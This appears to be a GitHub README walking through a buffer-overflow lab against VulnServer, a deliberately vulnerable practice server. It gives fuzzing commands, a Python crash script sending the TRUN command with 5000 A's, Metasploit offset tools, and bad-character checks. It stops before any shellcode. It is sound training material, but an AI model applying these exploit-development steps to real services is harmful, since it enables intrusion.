




# VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command below < HELP
```sh
nc -nv 192.168.242.130 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.


run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 


Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`
We input 5000 A's so that it crashes the vulnserver

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```
Close your CMD in Windows and Open the Vulnserver.exe file in the Immunity Debugger.
When it loads up Press the Play button 

Then Go to your Kali Terminal and type this command below 
```sh
python2 exploit3.py
```
After running Press Ctrl + C 

Now Check your Immunity Debugger , You will see crash has happened like this 



We need to Identify Offset write command below in kali
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```
Input the pattern exactly as given in `exploit4.py` file.

Restart the Immunity Debugger by pressing `<<` this button and play it again.

Run your python file similar as you did for exploit3.py.Now again press Ctrl + C and check for crash in your Immunity debugger.

Note Down the RIP value we need it for calculating the Offset



In Kali write this command with value of RIP address 
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 5000 -q 386F4337
```
Offset = 2003
We now input 2003 - A , 4 - B , rest - C to check if B go into RIP

Write the next exploit as per `exploit5.py` , Restart your Immunity debugger - play it and Run your exploit5 script in kali . Now again check your immunity debugger  

We can see that RIP register is Overwritten with B's and we successfully hijacked it !



In your Immunity Debugger get the byte array for Bad character as per this image below 



Put the Bad Characters in your script as per  `exploit6_bad.py` . restart the Immunity Debugger and run the script

You will notice that that "\x00" is bad character so we remove it , restart Immunity and run again ( I have already removed "\x00" in  `exploit6_bad.py` of repo)
It works Fine.


